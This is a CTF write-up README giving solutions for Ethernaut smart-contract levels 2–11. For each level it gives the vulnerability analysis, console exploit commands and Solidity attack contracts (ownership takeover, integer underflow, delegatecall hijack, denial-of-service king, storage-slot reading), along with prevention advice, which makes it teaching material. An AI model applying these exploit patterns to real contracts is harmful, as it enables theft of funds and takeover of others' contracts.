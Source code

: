 # Ethernaut

> **CTF-style smart contract hacking challenges.**
> 
> This repo contains solutions and explanations for Ethernaut levels. Each branch corresponds to a different level.

<details>
<summary><strong>🪙 Level 2: Fallback</strong></summary>

### Overview

This challenge demonstrates how improper use of the `receive()` function and weak access control can allow attackers to take ownership of a contract and drain its funds.

The Fallback contract allows:
- Users to contribute small amounts of Ether.
- Ownership transfer to contributors who exceed the current owner’s contribution.
- Receiving Ether via `receive()` to also set the sender as the owner (if they have contributed before).

**Goal:** Become the owner of the contract and withdraw all funds.

---

### 🔍 Vulnerability Analysis

- **Weak Ownership Logic:**
  - Ownership can be reassigned if:
    - You send Ether directly to the contract using `receive()` **and**
    - You already have a non-zero contribution.
- **Lack of Proper Access Control:**
  - The `receive()` function is not protected by `onlyOwner`, so any contributor can trigger it to become the owner.
- **No Minimum Threshold for Ownership Transfer via receive():**
  - Any amount of Ether (>0) is enough to change the owner after a contribution.

---

### 🛠️ Exploitation Steps

1. **Make a Small Contribution**
   
   You must first contribute to have `contributions[msg.sender] > 0`:
   
   ```js
   await contract.contribute({ value: toWei("0.0000000000001") });
   await contract.getContribution(); // should be > 0
   ```

2. **Trigger `receive()` to Become Owner**
   
   Send Ether outside the ABI (direct transaction) to the contract address:
   
   ```js
   await contract.sendTransaction({
     to: "0xDBEBD77F08559597e2c4DA23520ca5603e151C66", // contract address
     value: toWei("0.0000000000001")
   });
   ```
   Now the `receive()` function runs and sets you as owner.

3. **Verify Ownership**
   
   ```js
   await contract.owner();
   // should return your wallet address
   ```

4. **Withdraw All Funds**
   
   ```js
   await contract.withdraw();
   ```
   All Ether in the contract is now transferred to your address.

---

### 🪲 Root Cause

The vulnerability stems from allowing state changes in `receive()` without proper access control.

> **Best practice:** Use `receive()` only for accepting Ether, not changing contract ownership.

---

### 🛡️ Prevention

- Never change ownership in `receive()` or `fallback()`.
- Use strict access control (`onlyOwner` or similar modifiers).
- Avoid logic in `receive()` that can be abused by anyone sending Ether.

---

</details>

<details>
<summary><strong>🪙 Level 3: Fal1out</strong></summary>

### Overview

In Solidity versions before 0.7.0, a constructor was defined by giving the function the same name as the contract. In this challenge, the intended constructor is misspelled as `Fal1out` instead of `Fallout`.

As a result, it is a public function that anyone can call—even after deployment—and it sets the `owner` variable to `msg.sender`. This lets us take ownership of the contract.

---

### 🔓 Vulnerable Code

```solidity
/* constructor */
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

Because `Fal1out` is not recognized as a constructor, it becomes an external function that can be called by anyone.

---

### 🛠️ Exploitation Steps

1. **Deploy or create an instance of the challenge contract.**
2. **Call the `Fal1out()` function with your wallet:**
   ```js
   await contract.Fal1out();
   ```
3. **Verify ownership:**
   ```js
   await contract.owner(); // should return your address
   ```
4. **Withdraw funds:**
   - You are now the owner and can call `collectAllocations()` to withdraw funds.

---

### 📝 Key Takeaways

- In Solidity <0.7.0, constructors are identified by name matching the contract name exactly (case-sensitive).
- A typo in the constructor name turns it into a publicly callable function.
- From Solidity 0.7.0 onward, constructors are declared with the `constructor` keyword to avoid this issue.

---

</details>

<details>
<summary><strong>🪙 Level 4: Coin Flip</strong></summary>

### Vulnerable Contract & Problem

The original contract determines the coin flip outcome using:

```solidity
uint256 coinFlip = uint256(blockhash(block.number - 1)) / FACTOR;
```

- `blockhash(block.number - 1)` is publicly available, so anyone can predict the outcome before calling the function.
- `FACTOR` is a constant that makes `coinFlip` either 0 or 1.
- **Result:** The randomness is fully deterministic and predictable.

---

### 💥 Exploit Strategy

1. Read the blockchain’s last block hash using the same formula as the contract.
2. Calculate the expected outcome (`true` or `false`).
3. Submit the guess to the contract.
4. Repeat for 10 consecutive wins to complete the challenge.

---

## 🛠️ Hack Contract (FlipCoin Branch)

### 🔑 How the Hack Works

- The Hack contract imports the vulnerable CoinFlip contract.
- `_guess()` replicates the calculation from the original contract.
- Both contracts run in the same transaction, sharing the same `block.number` and `blockhash`, ensuring the prediction is always correct.
- By calling `flip()` every block, the attacker gets a 100% win rate.

---

## ⚠️ Security Lessons

- On-chain randomness is **not secure** if it relies on predictable values like `blockhash` or `block.timestamp`.
- Use [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction/) or other verifiable randomness oracles for secure random numbers.
- Never assume miners won't manipulate predictable variables—they can influence them.

---

</details>

<details>
<summary><strong>🪙 Level 5: Telephone</strong></summary>

### 🎯 Objective

Become the owner of the Telephone contract.

---

### 🔍 Understanding the Vulnerability

The Telephone contract has a function:

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

- `tx.origin` is the original externally-owned account (EOA) that started the transaction.
- `msg.sender` is the direct caller of the function.
- The condition `tx.origin != msg.sender` ensures you cannot call `changeOwner` directly from your wallet, because in that case both values would be the same.
- However, if you call `changeOwner` through another contract, then:
  - `tx.origin` will be your wallet address (EOA).
  - `msg.sender` will be the attacking contract’s address.
- This makes the condition `tx.origin != msg.sender` true, allowing us to change the owner.

---

### 🛠️ Exploit Strategy

Deploy an attacker contract that:
- Stores the target Telephone contract address.
- Calls `changeOwner(msg.sender)` on it.
- Call the attack function from your wallet so `msg.sender` in the target contract is the attacker contract’s address.
- This bypasses the `tx.origin` check and sets you as the owner.

---

### 💻 Exploit Code (Telephone branch)


### 📝 Step-by-Step Execution

1. **Deploy the HackTelephone contract** with the Telephone contract’s address as a constructor argument.
2. **Call `hackTelephone()` from your wallet.**
3. **Verify ownership in the console:**
   ```js
   await contract.owner(); // should return your wallet address
   ```

---

### ⚠️ Key Takeaway

- **Never rely on `tx.origin` for authentication checks.**
- Always use `msg.sender` to validate the caller, and implement proper access control with `onlyOwner` or similar patterns.

---

</details>

<details>
<summary><strong>🪙 Level 6: Token</strong></summary>

### 🎯 Objective

You start with 20 tokens. The goal is to increase your balance beyond the initial amount using the given smart contract.

---

### 🔍 Vulnerability

The `transfer` function has this check:

```solidity
require(balances[msg.sender] - _value >= 0);
```

- Since this contract is compiled with Solidity 0.6.0, arithmetic operations do **not** automatically revert on underflow/overflow.
- If you try to transfer more tokens than you have, `balances[msg.sender] - _value` underflows, wrapping around to a huge number (close to 2^256 - 1).
- This drastically increases your balance.

---

### 🛠️ Exploit Steps

1. **Deploy the level instance.**
2. **Call:**
   ```js
   await contract.transfer(<victim_address>, 21);
   ```
   Here, 21 is more than your balance (20), causing an underflow.
3. **Your balance will now be a huge number, completing the challenge.**

---

### 🧪 Proof of Concept (JavaScript Console)

```js
// Check initial balance
(await contract.balanceOf(player)).toString();
// > 20

// Exploit: Transfer more than you have
await contract.transfer("0x0000000000000000000000000000000000000000", 21);

// Check balance again
(await contract.balanceOf(player)).toString();
// > Very large number (underflow occurred)
```

---

### 📝 Key Takeaways

- Before Solidity 0.8.0, arithmetic was unchecked by default, allowing underflows and overflows.
- Always use SafeMath (or Solidity 0.8+ built-in checks) for safe arithmetic.
- Never assume `require(x - y >= 0)` will prevent negatives — with unsigned integers, negatives don't exist, they wrap.

---

</details>

<details>
<summary><strong>🪙 Level 7: Delegation</strong></summary>

### 🎯 Challenge Goal

Become the owner of the Delegation contract without directly calling its functions.

---

### 🔍 Vulnerability Explanation

The Delegation contract uses a `fallback()` function that executes:

```solidity
(bool result,) = address(delegate).delegatecall(msg.data);
```

- `delegatecall` executes the code from `delegate` (the Delegate contract) in the context of Delegation's storage.
- This means that if we trigger a function in Delegate (like `pwn()`), it will modify Delegation's `owner` variable, not Delegate's.
- Since `pwn()` sets:
  ```solidity
  owner = msg.sender;
  ```
  Calling it via `delegatecall` will set our address as owner in Delegation.

---

### 🛠️ Exploit Steps

1. **Craft a transaction to call `pwn()` on the Delegation contract** without directly calling it.
   - We do this by sending the function selector of `pwn()` to the Delegation contract.
2. **The `fallback()` function in Delegation will forward this call to Delegate** using `delegatecall`.
3. **The code in `pwn()` will run, setting `owner` in the Delegation contract to our address.**

4. **Important:** Call from your EOA (not via a contract). If you trigger `pwn()` through an attacking contract, that contract becomes the owner. Use Remix or a console to send the `pwn()` selector directly from your wallet.

---

### 📚 Detailed Explanation

If you didn't get the 2nd point, here's a brief explanation:

Let's slow it down and make the `fallback()` + `delegatecall` part crystal clear, step by step, because that's the key to understanding this Ethernaut challenge.

#### 1️⃣ What `fallback()` does in Solidity

The `fallback()` function is automatically triggered when:
- You send a transaction to a contract that doesn't match any existing function.
- Or you send raw data that doesn't match any function signature.

**Example:**
```solidity
fallback() external payable {
    // runs if no other function matches
}
```

So if we call Delegation with `pwn()` data, but Delegation has no function named `pwn`, `fallback()` will execute.

</details>

<details>
<summary><strong>🪙 Level 8: Vault</strong></summary>

### Overview

This challenge demonstrates a fundamental misconception about privacy in Ethereum smart contracts. The `private` keyword in Solidity only restricts access from other contracts during execution—it does not hide data from off-chain observers.

All contract storage is publicly readable on the blockchain, making "private" variables accessible to anyone who knows how to read storage slots.

**Goal:** Unlock the vault by setting `locked = false`.

---

### 🔍 Vulnerability Analysis

- **Misunderstanding of `private` Visibility:**
  - The `password` variable is marked as `private`, but this only prevents other contracts from accessing it during execution.
  - All storage data remains publicly readable on the blockchain.
- **No Encryption:**
  - The password is stored as plain text in storage, not encrypted.
- **Predictable Storage Layout:**
  - Solidity stores variables sequentially in storage slots, making it easy to determine which slot contains the password.

---

### 🛠️ Exploitation Steps

1. **Understand Storage Layout**
   
   The contract stores variables in this order:
   - Slot 0: `bool public locked`
   - Slot 1: `bytes32 private password`

2. **Read the Password from Storage**
   
   Use `web3.eth.getStorageAt()` to read the password from slot 1:
   
   ```js
   const password = await web3.eth.getStorageAt(instance, 1);
   console.log("Password:", password);
   ```

3. **Unlock the Vault**
   
   Call the `unlock()` function with the retrieved password:
   
   ```js
   await contract.unlock(password);
   ```

4. **Verify Success**
   
   Check that the vault is now unlocked:
   
   ```js
   const locked = await contract.locked();
   console.log("Vault locked:", locked); // should be false
   ```

---

### 📚 Detailed Explanation

#### Storage Visibility in Ethereum

In Ethereum, all contract storage is publicly readable. The `private` keyword in Solidity only affects:
- **Compile-time access:** Other contracts cannot directly reference private variables
- **Runtime access:** Private variables cannot be accessed by other contracts during execution

However, **off-chain observers can always read any storage slot** using:
- Block explorers
- RPC calls like `eth_getStorageAt`
- Web3 libraries

#### Storage Layout

Solidity stores variables sequentially in 32-byte storage slots:
```solidity
contract Vault {
    bool public locked;          // Slot 0 (32 bytes, but bool only uses 1 byte)
    bytes32 private password;    // Slot 1 (32 bytes)
}
```

Since `bool` variables only use 1 byte, the remaining 31 bytes in slot 0 are unused but still part of the slot.

---

### 🪲 Root Cause

The vulnerability stems from the misconception that `private` variables are hidden from off-chain observers. In reality, Ethereum's transparency means all data is publicly accessible.

> **Key takeaway:** `private` in Solidity ≠ private in traditional programming. It only restricts contract-to-contract access, not blockchain visibility.

---

### 🛡️ Prevention

- **Never store sensitive data in plain text** on the blockchain
- **Use encryption** for sensitive data if it must be stored
- **Implement access control** rather than relying on visibility modifiers
- **Consider off-chain storage** for truly sensitive information
- **Educate developers** about blockchain transparency

---

### 🧪 Complete Exploit Code

```js
// 1) Read the password from storage slot 1
const password = await web3.eth.getStorageAt(instance, 1);
console.log("Retrieved password:", password);

// 2) Unlock the vault using the password
await contract.unlock(password);

// 3) Verify the vault is unlocked
const locked = await contract.locked();
console.log("Vault locked:", locked);

// 4) Confirm success
if (!locked) {
    console.log("✅ Vault successfully unlocked!");
} else {
    console.log("❌ Vault still locked");
}
```

---

### 🔗 Related Concepts

- **Storage Layout:** Understanding how Solidity organizes contract storage
- **Blockchain Transparency:** Why all on-chain data is public
- **Access Control:** Proper ways to restrict functionality
- **Data Privacy:** Strategies for handling sensitive information on public blockchains

</details>

<details>
<summary><strong>🪙 Level 9: King</strong></summary>

### Overview

This level is a "King of the Hill" contract. To become the new king, a caller must pay at least the current `prize`. The contract then tries to refund the previous king using `transfer` before updating the state. If the refund fails, the whole transaction reverts.

**Goal:** Become king and lock the contract so no one can dethrone you.

---

### 🔓 Vulnerable Code (core idea)

<details>
<summary><code>contract King {</code></summary>

```solidity
contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value); // <--- external call that can revert
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

</details>

---

### 🔍 Vulnerability Analysis

- **Push payments with `transfer`:** The contract sends ETH to the previous king using `transfer`, which forwards 2300 gas and reverts on any failure.
- **State updated after external call:** If the refund reverts, the contract never reaches the state update, so no one can become the new king.
- **Malicious recipient can force failure:** A contract can intentionally revert in `receive()`/`fallback()`, causing every dethroning attempt to fail.

---

### 🛡️ Attack Contract

<details>
<summary><code>// SPDX-License-Identifier: MIT</code></summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {
    function prize() external view returns (uint256);
}

contract KingAttack {
    address payable public target;

    constructor(address payable _target) {
        target = _target;
    }

    // Send enough ETH to claim kingship
    function attack() external payable {
        (bool ok, ) = target.call{value: msg.value}("");
        require(ok, "call failed");
    }

    // Block all refunds to lock the game
    receive() external payable { revert("no refunds"); }
    fallback() external payable { revert("no refunds"); }
}
```

</details>

---

### 🧪 Exploitation Steps

1. Read the current `prize`:
   ```js
   const prize = await contract.prize();
   ```
2. Deploy `KingAttack` with the level instance address.
3. Call `attack()` and send `value: prize` (or `prize + 1`):
   ```js
   await kingAttack.attack({ value: prize });
   ```
4. Verify you are the king:
   ```js
   await contract._king(); // should be kingAttack address
   ```
5. Try dethroning from an EOA with more ETH — it should revert because your contract rejects the refund.

---

### 📚 Detailed Explanation

- **`transfer` forwards 2300 gas:** This is barely enough for a simple `LOG` and no storage writes. If the recipient reverts or is non-payable, the `transfer` reverts the entire transaction.
- **Push vs Pull payments:** Pushing ETH during state transitions creates a hard dependency on recipients. If they cannot receive, your logic breaks.
- **External call before state update:** Combining an external call with state updates in the same function increases fragility and attack surface.

---

### 🪲 Root Cause

Relying on push-based refunds with `transfer` during the critical path of state updates. A refund failure prevents updating the king, allowing a malicious king to brick the contract.

---

### 🛡️ Prevention

- Prefer the **withdraw (pull) pattern**: record balances owed and let users withdraw later.
- Avoid `transfer`/`send`; use low-level `call` and handle failures gracefully if you must send.
- Apply **checks-effects-interactions**: update state first, then interact, or decouple payments entirely.
- Consider adding an emergency path or owner override (carefully designed) to recover from blocked refunds.

---

### 🧪 Complete Exploit (JS + Solidity)

<details>
<summary><code>// KingAttack.sol</code></summary>

```solidity
// KingAttack.sol
pragma solidity ^0.8.0;
contract KingAttack {
    address payable public target;
    constructor(address payable _target) { target = _target; }
    function attack() external payable {
        (bool ok,) = target.call{value: msg.value}("");
        require(ok, "call failed");
    }
    receive() external payable { revert("no refunds"); }
    fallback() external payable { revert("no refunds"); }
}
```

</details>

<details>
<summary><code>// Console</code></summary>

```js
// Console
const prize = await contract.prize();
await kingAttack.attack({ value: prize });
await contract._king(); // => kingAttack address
```

</details>

---

### 🔗 Related Concepts

- **Push vs Pull Payments**
- **`transfer`/`send` vs `call`**
- **Checks-Effects-Interactions**
- **Denial-of-Service via unexpected revert**

</details>

<details>
<summary><strong>🪙 Level 10: Elevator</strong></summary>

### Overview

The `Elevator` contract asks an external contract (treated as `Building`) whether a floor is the last one. It calls `isLastFloor` twice and makes a decision based on the answers. Because it fully trusts the external response, an attacker can return different answers on each call to set `top = true`.

**Goal:** Reach the top floor by setting `top = true`.

---

### 🔓 Vulnerable Contract (simplified)

<details>
<summary><code>contract Elevator {</code></summary>

```solidity
interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        if (!Building(msg.sender).isLastFloor(_floor)) {
            floor = _floor;
            top = Building(msg.sender).isLastFloor(floor);
        }
    }
}
```

</details>

---

### 🔍 Vulnerability Analysis

- **Untrusted callback controls logic:** The contract trusts `Building(msg.sender)` to answer security-critical questions.
- **Inconsistent responses enable bypass:** Because `isLastFloor` is not `view`, the callee can return `false` first and `true` later in the same transaction.
- **Double-check pattern is exploitable:** The second call can differ from the first, allowing `top` to be set to `true`.

---

### 🛡️ Attack Contract

<details>
<summary><code>// ElevatorAttack.sol</code></summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
    function top() external view returns (bool);
}

contract ElevatorAttack {
    IElevator public target;
    bool private toggled;

    constructor(address _target) {
        target = IElevator(_target);
    }

    function attack(uint256 _floor) external {
        target.goTo(_floor);
        require(target.top(), "Not at top");
    }

    // Called by Elevator via Building(msg.sender)
    function isLastFloor(uint256) external returns (bool) {
        bool answer = toggled; // false on first call, true on second
        toggled = !toggled;
        return answer;
    }
}
```

</details>

---

### 🧪 Exploitation Steps

1. Deploy `ElevatorAttack` with the target `Elevator` address.
2. Call `attack(1)` to trigger `goTo(1)`.
3. The first `isLastFloor` returns `false` → contract sets `floor`.
4. The second `isLastFloor` returns `true` → contract sets `top = true`.
5. Verify `top` is now `true`.

---

### 📚 Detailed Explanation

- The `Elevator` contract expects the caller to implement `isLastFloor`. By initiating the call from our attack contract, `msg.sender` inside `Elevator` is our contract, so `Elevator` calls back into us.
- Because `isLastFloor` is not marked `view`, the implementation can track state and alternate answers across calls within the same transaction.
- Returning `false` first and `true` second satisfies the `Elevator` logic to set `top = true`.

---

### 🪲 Root Cause

Trusting an untrusted external callback for a security-critical decision without constraining behavior (e.g., requiring `view`/determinism) or establishing a trusted `Building` address.

---

### 🛡️ Prevention

- Avoid trusting callbacks from arbitrary callers for critical logic.
- If callbacks are unavoidable, constrain them (e.g., `view`/`pure`) and enforce a trusted `Building` address set by the owner.
- Validate invariants independently rather than relying entirely on external responses.

---

### 🧪 Complete Exploit (Console)

<details>
<summary><code>// Hardhat/Foundry console</code></summary>

```js
// instance = address of the deployed Elevator level instance
const Attack = await ethers.getContractFactory("ElevatorAttack");
const attack = await Attack.deploy(instance);
await attack.deployed();

await attack.attack(1);
const elevator = await ethers.getContractAt("Elevator", instance);
console.log("top:", await elevator.top()); // true
```

</details>

---

### 🔗 Related Concepts

- Callback-based design and trust boundaries
- Determinism (`view`/`pure`) in external interfaces
- Cross-contract control flow and reentrancy-like logic pitfalls

</details>

<details>
<summary><strong>🪙 Level 11: Privacy</strong></summary>

### Overview

The `Privacy` contract appears to hide sensitive data using `private` variables. In Solidity, `private` only restricts access from other contracts at compile/runtime. It does not hide data from off-chain reads. All contract storage is publicly readable on the blockchain.

**Goal:** Unlock the contract by providing the correct `bytes16` key stored in `data[2]`.

---

### 🔓 Vulnerable Contract (simplified)

<details>
<summary><code>contract Privacy {</code></summary>

```solidity
contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }
}
```

</details>

---

### 🔍 Vulnerability Analysis

- **Private ≠ hidden:** `private` only limits contract-to-contract access; storage remains public off-chain.
- **Authorization by secret in storage:** The contract uses a value from `data[2]` as a secret key.
- **Deterministic storage layout:** Knowing the layout lets us read the key directly.

---

### 🛠️ Exploitation Steps

1. Determine storage slots:
   - Slot 0: `locked`
   - Slot 1: `ID`
   - Slot 2: `flattening`, `denomination`, `awkwardness` (packed)
   - Slot 3: `data[0]`
   - Slot 4: `data[1]`
   - Slot 5: `data[2]` ✅
2. Read slot 5 via RPC.
3. Cast the `bytes32` value to `bytes16` (left 16 bytes) and call `unlock(key)`.

---

### 📚 Detailed Explanation (Storage Layout)

Solidity stores state variables in 32-byte slots sequentially. Small types are tightly packed into a single slot when possible. Arrays of fixed-length elements like `bytes32[3]` occupy consecutive whole slots.

---

### 🧨 Attack Contract

<details>
<summary><code>// PrivacyAttack.sol</code></summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPrivacy {
    function unlock(bytes16 _key) external;
}

contract PrivacyAttack {
    IPrivacy private immutable target;

    constructor(address _target) {
        target = IPrivacy(_target);
    }

    function attack(bytes32 slotValue) external {
        bytes16 key = bytes16(slotValue); // take first 16 bytes
        target.unlock(key);
    }
}
```

</details>

---

### 🧪 Console (read slot and unlock)

<details>
<summary><code>// web3.js</code></summary>

```js
// instance = address of Privacy level instance
const slot5 = await web3.eth.getStorageAt(instance, 5);
// Call unlock directly if you have the contract object
await contract.unlock(slot5.slice(0, 34)); // first 16 bytes (0x + 32 hex chars)
// Or send full bytes32; Solidity will truncate to bytes16
await contract.unlock(slot5);
```

</details>

<details>
<summary><code>// ethers.js</code></summary>

```js
const slot5 = await ethers.provider.getStorageAt(instance, 5);
const privacy = await ethers.getContractAt("Privacy", instance);
await privacy.unlock(slot5); // bytes32 will be cast to bytes16 by the contract
```

</details>

---

### 🪲 Root Cause

Relying on secrecy of on-chain storage for access control. On a public blockchain, storage is transparent and cannot be treated as confidential.

---

### 🛡️ Prevention

- Never store secrets (keys/passwords) in plaintext on-chain.
- Use commit-reveal schemes or off-chain derived values.
- If data must be stored, store only hashes and verify preimages provided by users.
- Educate teams that Solidity visibility modifiers do not imply privacy from observers.

---

### 🔗 Related Concepts

- Storage layout and variable packing
- Reading storage via `eth_getStorageAt`
- Data confidentiality on public blockchains

</details>